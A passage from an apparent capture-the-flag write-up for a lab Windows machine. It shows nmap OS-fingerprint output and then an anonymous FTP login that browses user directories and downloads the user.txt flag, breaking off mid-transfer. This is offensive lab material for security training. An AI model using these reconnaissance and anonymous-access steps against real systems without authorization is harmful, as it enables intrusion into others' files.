 ```bash
OS:O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%
OS:DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.01 seconds
```

So there is FTP open, lets try and login with anonymous:

```bash
root@kali:~/Desktop/netmon# ftp 10.10.10.152 
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
03-12-19  10:59PM       <DIR>          Public
226 Transfer complete.
ftp> cd administrator
550 Access is denied. 
ftp> cd public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
```